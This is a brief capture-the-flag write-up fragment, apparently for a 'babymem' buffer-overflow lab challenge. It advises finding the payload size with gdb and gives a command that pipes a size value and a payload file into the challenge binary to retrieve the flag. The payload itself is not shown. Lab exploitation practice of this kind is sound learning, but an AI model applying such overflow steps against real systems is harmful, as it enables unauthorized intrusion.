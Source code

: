 You have to calculate the size of the payload by yourself.

It can be done through `gdb`.

These commands will lead you to the flag.
```
./run.py
(echo "144"; cat payload; cat) | /babymem_level3_testing1
```
